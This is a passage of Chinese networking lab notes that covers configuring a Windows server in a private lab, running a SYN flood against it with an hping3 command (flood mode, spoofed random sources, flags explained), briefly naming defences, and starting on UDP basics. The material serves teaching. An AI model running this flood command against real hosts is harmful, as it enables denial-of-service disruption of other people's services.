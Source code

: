   **查看默认网关**

  ```
  route -n
  ```

![image-20220120110649585](https://yang-typora.oss-cn-beijing.aliyuncs.com/202205241534239.png)

- ##### 配置Windows server IP地址

  ```
  netsh interface ip set address "Ethernet0" static 192.168.2.100 255.255.255.0 192.168.2.254
  ```

- ##### Windows server搭建网站

  - 服务器管理器----管理---添加角色和功能-----Web服务器---安装c

  

### 一、实施SYN flood 洪水攻击

```java
hping3 -c 1000 -d 120 -S -w 64 -p 80 --flood --rand-source 192.168.2.100  
//c代表数据包的流量  d代表每个数据包的大小 S只发送SYN -w窗口大小 -p目标端口
//--rand-source自动生成随机的IP
```

![image-20220120125919207](https://yang-typora.oss-cn-beijing.aliyuncs.com/202205241534240.png)

**使用hping3工具**

### 二、防御SYN flood攻击

- 使用TCP代理的方式

  ![image-20220120142011139](https://yang-typora.oss-cn-beijing.aliyuncs.com/202205241534241.png)

- TCP源探测（比较常用）

![image-20220120143634678]()

## UDP协议

UDP（用户数据报）协议，是传输层的另外一个协议

### 一、简单概念

#### 1、特点

- 不需要建立连接，直接发送数据，不会去重新排序，不需要确认

#### 2、报文字段

- 源端口
- 目标端口
- UDP长度
- UDP校验和
